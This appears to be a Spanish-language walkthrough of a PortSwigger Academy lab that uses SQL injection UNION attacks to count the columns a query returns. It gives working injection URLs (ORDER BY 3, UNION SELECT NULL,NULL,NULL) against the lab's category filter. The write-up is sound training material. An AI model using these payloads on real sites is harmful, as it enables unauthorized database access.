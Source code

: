 # Lab: SQL injection UNION attack, determining the number of columns returned by the query

- [Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

To solve the lab, determine the number of columns returned by the query by performing a `SQL injection UNION` attack that returns an additional row containing null values.

---

### Explicación:

Si solo se pone una comilla da error, ya que el query se quedaría con una sola comilla, es decir, **Se encuentra un error!!!**

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a46c0863-5d12-4127-9887-7d5d1ecd7a1f)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a79c49df-b0d6-47f3-90b8-0c0c9f0e8b1b)

Ahora hay que buscar la manera de Fuzzear y contar.

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/a91df05f-15d9-4d60-a5c0-dc72550d5486)

Esto se vería algo así:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0af7cb7d-db50-4ae9-8462-f7cb35c71ac2)

OJO! port swigger no acepta numeros por eso marca error:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/bb3ee3ea-2a12-4443-ae86-867df5e71359)

PAra hacerlo funcionar se necesita poner NULL


## Solución:

1. En este caso la vulnerabilidad también está en categorías

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/8a87141b-dded-420f-b75f-05439d0def77)

2. Aquí encuentro el error

3.  Salgo adelante del error y hago el conteo de columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle' ORDER BY 3 -- -
````

4. Acomodo las columnas

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  Union Select 1,2,3 -- -
````

Utilizo NULL en lugar de números

````
https://0aff002b034894bd8089e9e3001100a0.web-security-academy.net/filter?category=Lifestyle'  UNION SELECT NULL,NULL,NULL -- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/600fb155-e0c3-437c-96f9-e04ba315f31f)








